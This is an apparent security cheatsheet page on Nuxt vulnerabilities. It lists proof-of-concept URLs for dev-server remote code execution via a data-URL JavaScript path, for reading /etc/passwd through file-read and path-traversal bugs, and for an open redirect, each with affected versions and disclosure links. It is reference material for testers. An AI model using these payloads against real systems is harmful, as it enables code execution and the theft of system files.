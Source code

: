 ```yaml
---
title: "Nuxt"
description: "Cheatsheet on Nuxt"
lead: "Cheatsheet on Nuxt"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "framework"
weight: 620
toc: true
---
```


## Nuxt

[Nuxt](https://github.com/nuxt/nuxt) is an intuitive and extendable way to create type-safe, performant and production-grade full-stack web apps and websites with Vue 3.

## Vulnerabilities

### Remote Code Execution 

- `http://localhost:3000/__nuxt_component_test__/?path=data%3Atext%2Fjavascript%2Cconsole%2Elog%28%22hello%21%22%29%3B`
- Version: <= v3.4.0-2 (development server)
- [Huntr -  RCE in developer mode in nuxt/nuxt](https://huntr.dev/bounties/1eb74fd8-0258-4c1f-a904-83b52e373a87/)

### Abritrary File Read

- `http://localhost:3000/__nuxt_vite_node__/module//bin/passwd`
- Version: 3.0.0-RC8 - 3.4.1 (development server)
- [Huntr - (Almost) Arbitary File Read on Development Server in nuxt/nuxt](https://huntr.dev/bounties/7840cd32-af15-40cb-a148-7ef3dff4a0c2/)

### Path Traversal

- http://localhost:3000/_nuxt/@fs/etc/passwd
- Version: <= rc12 (development server)
- [Huntr - Dev mode Path traversal in nuxt/framework](https://huntr.dev/bounties/4849af83-450c-435e-bc0b-71705f5be440/)

### Open Redirect

- https://nuxtjs.org///bing.com
- Version: <= 2.15.7
- [Github Issues - Three slashes linking to external website](https://github.com/nuxt/nuxt/issues/9992)